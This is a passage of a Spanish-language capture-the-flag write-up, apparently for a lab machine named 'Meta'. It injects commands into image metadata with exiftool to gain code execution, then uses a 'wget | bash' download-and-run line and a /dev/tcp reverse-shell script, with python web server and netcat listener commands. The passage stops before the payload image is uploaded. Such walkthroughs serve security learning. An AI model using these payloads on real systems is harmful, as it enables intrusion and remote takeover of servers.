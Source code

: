 ```
-rw-r--r-- 1 root root  28K may 17 10:15 runme.jpg
```
Ahora siguiendo los pasos que nos da el github elegido lanzamos comando que inserta el comando en la imagen, me mandaré un ping a mi máquina.  
Estaba probando en local cuando me di cuenta de que mi versión de existool no es vulnerable juasss.
```
❯ exiftool -config eval.config runme.jpg -eval='system("ping -c 1 10.10.14.10")'
    1 image files updated
``` 
Me pongo en escucha:
``` 
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
Y ahora subo la imagen a la web. Podemos ver que se ha enviado una petición

![RCE]({{ 'assets/img/writeups/Meta/rce.png' | relative_url }}){: .center-image }

Y en mi terminal se ve la petición recibida:
```
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:33:58.544775 IP 10.10.11.140 > 10.10.14.10: ICMP echo request, id 1034, seq 1, length 64
10:33:58.544813 IP 10.10.14.10 > 10.10.11.140: ICMP echo reply, id 1034, seq 1, length 64
```
Muy bien tengo RCE. Ahora quiero enviarme una reverse shell. Esta vez en lugar de hacerlo con la típica de `bash -c 'bash -i >& /dev/tcp/IP/PUERTO 0>&1'` lo haré de otra manera. Primero voy averiguar si hay curl o wget. Curl no hay, pero wget si:
```
❯ exiftool -config eval.config runme.jpg -eval='system("which wget")'
    1 image files updated
```
Subimos la imagen y vemos en el navegador la ruta /usr/bin/wget. Sabiendo que esta wget vamos a mandarnos una solicitud a nuestro ordenador donde tendré alojado un script en bash que me dará una reverse shell. Recuerda importante que curl no hace lo mismo que wget, curl te muestra la información solicitada pero wget te la descarga y no te la representa, para que wget sea como curl tienes que añadir la opción -qO- que sirve para mostrar el código fuente.
```
❯ exiftool -config eval.config runme.jpg -eval='system("wget -qO- 10.10.14.10 | bash")'
    1 image files updated
``` 
Creo el archivo que se descargará la víctima con nombre index.html en mi carpeta local content:
``` bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.10/443 0>&1
``` 
Y en esa misma carpeta me abro un servidor en python3:
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Y desde otra ventana me pongo en escucha:
```
❯ nc -nlvp 443
listening on [any] 443 ...
``` 
Ahora es turno de subir la foto con la inyección que le metimos. Lo que hará al interpretar el comando es abrir el código del index.html y luego ejecutarlo con bash.
